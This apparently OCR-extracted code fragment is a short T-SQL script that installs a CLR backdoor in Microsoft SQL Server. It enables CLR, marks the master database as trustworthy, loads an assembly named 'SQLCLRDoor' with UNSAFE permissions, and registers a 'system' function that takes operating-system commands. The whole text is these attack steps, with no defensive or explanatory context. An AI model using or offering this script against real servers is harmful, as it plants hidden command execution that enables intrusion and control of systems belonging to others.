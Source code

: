 exec sp_configure 'show advanced options', 1;reconfigure;exec sp_configure 'clr enabled', 1;reconfigure;
//Need restart sql server
alter database master set trustworthy on
CREATE ASSEMBLY SQLCLRDoor FROM 'C:\Visual Studio 2008\Projects\SQLCLRDoor\SQLCLRDoor\bin\Release\SQLCLRDoor.dll' with PERMISSION_SET = UNSAFE;

CREATE FUNCTION system(@cmd nvarchar(4000)) RETURNS nvarchar(4000) AS EXTERNAL NAME SQLCLRDoor.CLR.system;

